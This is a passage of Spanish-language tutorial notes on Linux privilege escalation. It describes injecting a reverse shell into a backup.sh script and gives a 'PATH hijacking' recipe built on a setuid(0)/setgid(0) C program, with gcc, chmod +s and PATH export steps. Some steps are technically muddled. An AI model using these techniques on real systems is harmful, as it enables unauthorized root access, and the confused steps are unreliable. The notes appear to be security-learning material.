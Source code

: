 Incluimos en el fichero [**backup.sh**](http://backup.sh) la reverse_shell con `nano` .

![Untitled](Escalar%20Privilegios%20en%20Linux%20a21e20b2d3754f1682ebd291df65bb87/Untitled%2024.png)

Ahora le damos permisos de ejecución:

![Untitled](Escalar%20Privilegios%20en%20Linux%20a21e20b2d3754f1682ebd291df65bb87/Untitled%2025.png)

Vemos que se ha producido la reverse_shell y estamos dentro como root:

![Untitled](Escalar%20Privilegios%20en%20Linux%20a21e20b2d3754f1682ebd291df65bb87/Untitled%2026.png)

# Escalar Privilegios: PATH Hijacking

Los comandos en Linux se ejecutan desde la izquierda a la derecha, por tanto, si colamos un archivo malicioso en dicha ruta se ejecutará sin problema.

 Si hacemos un `echo $PATH` vamos a obtener la ruta que sigue el sistema para buscar los ejecutables y scripts, es decir busca dichos ejecutables sin tener que especificar toda la ruta.

Para ellos hacemos:

1. Creamos un fichero con la extensión .c, es decir un fichero con código en c → `touch archivo.c`
2. Ahora introducimos el código malicioso poniendo tanto el `suid` como `sgid` a 0:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        setuid(0); // Establece el ID de usuario a 0 (root)
        setgid(0); // Establece el ID de grupo a 0 (root)
        system("/bin/bash"); // Ejecuta una shell
        return 0;
    }
    ```
    
3. Mediante `gcc` vamos a compilarlo para que se convierta en ejecutable dicho binario → `gcc archivo.c -o archivo`
4. Ahora mediante `chmod +s archivo` vamos a dar asignarle permiso SUID, esto hará que se ejecute como root.
5. Ahora exportamos el directorio donde se encuentra dicho binario al PATH → `export PATH=<ruta_del_binario>:$PATH`
6. A continuación incluimos “/bin/bash” dentro del binario del PATH → `echo "/bin/bash" > archivo` (si previamente lo hemos hecho podemos saltárnoslo) y le damos todos los permisos `chmod 777 archivo`.
7. Finalmente, mediante `./archivo` ejecutamos el binario y escalamos privilegios.

Por tanto, no nos hace falta realizar una búsqueda de binarios con bit SUID, podemos crear un archivo malicioso nosotros, activando el bit SUID y mediante un código malicioso (lanzar una Shell, por ejemplo) escalar privilegios ejecutando otro comando diferente ya que este estará contenido en el la variable de entorno PATH.

### Ejemplo práctico:
